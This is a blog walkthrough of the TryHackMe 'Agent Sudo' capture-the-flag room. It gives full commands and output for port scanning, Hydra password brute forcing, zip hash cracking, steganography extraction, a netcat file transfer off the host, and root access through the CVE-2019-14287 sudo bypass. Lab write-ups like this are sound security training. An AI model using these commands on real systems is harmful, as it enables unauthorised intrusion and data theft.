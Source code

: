 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)


# Agent Sudo - Writeup

Mom, I think there are aliens outside...

Released: 2024-03-4


## Nmap

```bash
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.137.85
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:53 EST
Nmap scan report for 10.10.137.85
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
```

- 3 open ports: 21, 22 and 80.

## Enumeration cont'd

- To access to the secret page, we need to modify the **user-agent** using cURL. I used the command ```curl -A <useragent> 10.10.137.85 -L``` and trying *R* as a user agent shows this.

![Image showing result of R](blog/agentsudopics/useragentcurl.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1</small>
</div>

- When we try *C* as a user agent we get this...

![Image showing result of C](blog/agentsudopics/chris.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2</small>
</div>

- From *Fig.2*, we know Agent C's name is Chris and that his password is weak (not actually "weak").

## Hash cracking and Brute-forcing

- I cracked the FTP Password for the server using the command ```hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.194.92 -V```.

![Image showing ftp cracked](blog/agentsudopics/ftpcracked.png 'Fig.3')
<div style={{ textAlign: 'center' }}>
  <small>Fig.3 *Cracked FTP Password*</small>
</div>

- We can login using ```ftp user@ip```. Inside FTP, we find a *.txt* file that reads...

```txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- Let's also ```get``` the other images. If we ***Binwalk*** *cutie.png*, we find a password-protected *.zip* file inside.

```bash
┌──(vipin㉿vipin)-[~/Downloads]
└─$ zip2john 8702.zip > 8702.hash
                                                                                                      
┌──(vipin㉿vipin)-[~/Downloads]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-03-04 21:35) 0.4975g/s 22230p/s 22230c/s 22230C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Inside the password-protected *.zip* file is a TXT file named *To_agentR.txt* and inside is this...

```txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- It seem like *"QXJlYTUx"* is encoded in Base64.

```bash
┌──(vipin㉿vipin)-[~/Downloads]
└─$ echo 'QXJlYTUx' | base64 -d
Area51           
```

- Could this be the *StegHide* password for *cute-alien.jpg*?

```bash
┌──(vipin㉿vipin)-[~]
└─$ steghide --extract -p Area51 -sf cute-alien.jpg
wrote extracted data to "message.txt".
```

- It was!!!


```bash
┌──(vipin㉿vipin)-[~]
└─$ cat message.txt                                                                   
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- Wow, we know know agent J's password. Let's try to *ssh* with the password we aquired.

## Capture the user flag

```bash
┌──(vipin㉿vipin)-[~]
└─$ ssh james@10.10.194.92                         
The authenticity of host '10.10.194.92 (10.10.194.92)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.92' (ED25519) to the list of known hosts.
james@10.10.194.92's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 02:49:58 UTC 2024

  System load:  0.0               Processes:           92
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.194.92
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

> What is the incident of the photo called?

- Since we cannot view images in the Terminal, let's try to transfer the file to my VM.

```bash
james@agent-sudo:~$ nc -w 5 10.6.22.229 6969 < /home/james/Alien_autospy.jpg

# on another window

┌──(vipin㉿vipin)-[~/Desktop]
└─$ nc -lvnp 6969 > Alien_autopsy.jpg
```

- With Google Images I performed a reverse image search on the image. I didn't specifically find a result from Fox News, but other articles and news said some guy named Roswel faked an alien autopsy. If we combined what we learned from the articles, we find that the answer is ***roswell alien autopsy***.

## Privilege escalation

> It's the most wonderful time of the Machineeeeeee 🎶

- We start by running ```find / -uid 0 -perm -4000 -type f 2>/dev/null``` to find exploitable SUID Binaries and funnily `sudo` seems to be one.

```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- A little searching find us [this](https://www.exploit-db.com/exploits/47502) exploit which tells us the CVE is **CVE-2019-14287** and how to privilege escalate with this exploit!

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### MACHINE PWN'ED 😎
